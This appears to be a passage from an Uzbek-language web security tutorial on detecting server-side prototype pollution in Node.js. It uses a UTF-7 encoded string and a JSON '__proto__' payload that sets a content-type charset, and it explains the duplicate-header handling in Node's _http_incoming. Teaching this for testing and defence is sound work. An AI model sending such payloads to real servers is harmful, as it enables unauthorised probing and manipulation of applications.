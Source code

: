 Agar javobda aks etadigan xususiyatlari bo‘lgan obyektni topsangiz, bu orqali manbalarni (sources) tekshirishingiz mumkin. Quyidagi misolda biz UTF-7 kodlashidan va JSON manbasidan foydalanamiz.

Avvalo, javobda aks etadigan xususiyatga UTF-7 bilan kodlangan ixtiyoriy satr qo‘shing. Masalan, `foo` UTF-7 da `+AGYAbwBv-` ga to‘g‘ri keladi.

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"+AGYAbwBv-"
}
```

So‘rovni yuboring. Serverlar sukut bo‘yicha UTF-7 dan foydalanishmaydi, shuning uchun bu satr javobda kodlangan holatda paydo bo‘ladi.
Endi prototipni `content-type` xususiyati bilan ifloslashga harakat qiling — u aniq UTF-7 kodlashni belgilasin:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```

Birinchi so‘rovni takrorlang. Agar siz prototipni muvaffaqiyatli ifloslagan bo‘lsangiz, UTF-7 bilan kodlangan satr hozir javobda dekodlangan holda ko‘rinadi:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```

Node'ning `_http_incoming` modulidagi bir xatolik tufayli bu usul haqiqiy so‘rovning `Content-Type` headerida o‘zining `charset` atributi mavjud bo‘lsa ham ishlaydi. So‘rovda takroriy (duplikat) headerlar mavjud bo‘lganda, `_addHeaderLine()` funksiyasi IncomingMessage obyektiga xususiyatlarni o‘tkazishdan oldin shu kalit bilan hech qanday xususiyat mavjud emasligini tekshiradi — agar mavjud bo‘lsa, qayta ishlanayotgan header tashlab yuboriladi:

```javascript
IncomingMessage.prototype._addHeaderLine = _addHeaderLine;
function _addHeaderLine(field, value, dest) {
    // ...
    } else if (dest[field] === undefined) {
        // Drop duplicates
        dest[field] = value;
    }
}
```
